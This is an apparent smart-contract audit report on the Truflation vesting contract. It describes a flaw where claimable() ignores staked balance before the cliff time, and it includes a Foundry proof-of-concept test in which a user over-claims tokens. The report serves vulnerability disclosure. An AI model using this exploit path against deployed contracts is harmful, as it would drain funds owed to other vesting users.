 Soft Topaz Gibbon

high

# `claimable` prior to cliff time does not account for locked balance

## Summary
`claimable` prior to cliff time does not account for locked balance 

## Vulnerability Detail
After a user's vesting begins, up until the cliff time, the user can claim their `initialRelease` part of the vesting. However, in that case it is not accounted if a user has staked any balance. This would allow the user to claim more than supposed to and leave the contract underfunded. Innocent users who then try to claim their vestings will get their transactions reverted due to lack of funds. 

```solidity
    function claimable(uint256 categoryId, uint256 vestingId, address user)
        public
        view
        returns (uint256 claimableAmount)
    {
        UserVesting memory userVesting = userVestings[categoryId][vestingId][user];

        VestingInfo memory info = vestingInfos[categoryId][vestingId];

        uint64 startTime = userVesting.startTime + info.initialReleasePeriod;

        if (startTime > block.timestamp) {
            return 0;
        }

        uint256 totalAmount = userVesting.amount;

        uint256 initialRelease = (totalAmount * info.initialReleasePct) / DENOMINATOR;

        startTime += info.cliff;

        if (startTime > block.timestamp) {
            return initialRelease;
        }
```

## Impact
User will have unfairly high voting balance in `veTruf` contract
Theft of funds.
Innocent users will be unable to claim their vestings.

## Code Snippet
https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/TrufVesting.sol#L176C1-L183C1

## Tool used

Manual Review

## Recommendation
check `initialRelease` against `maxClaimable`

## PoC 
```solidity
    function test_cliffDoesNotConsiderLocked() public { 
        _setupVestingPlan();
        uint256 categoryId = 2;
        uint256 vestingId = 0;
        uint256 stakeAmount = 10e18;
        uint256 duration = 30 days;

        vm.startPrank(owner);
        
        vesting.setUserVesting(categoryId, vestingId, alice, 0, stakeAmount);

        vm.warp(block.timestamp + 11 days);     // warping 11 days, because initial release period is 10 days
                                                // and cliff is at 20 days. We need to be in the middle 
        vm.startPrank(alice);
        vesting.stake(categoryId, vestingId, stakeAmount, duration);    // alice stakes her full amount 

        assertEq(trufToken.balanceOf(alice), 0);
        vesting.claim(alice, categoryId, vestingId, type(uint256).max);
        
        uint256 balance = trufToken.balanceOf(alice);
        assertEq(balance, stakeAmount * 5 / 100);       // despite having staked her whole vesting balance, 
                                                        // Alice could still claim 5% 
    }
```
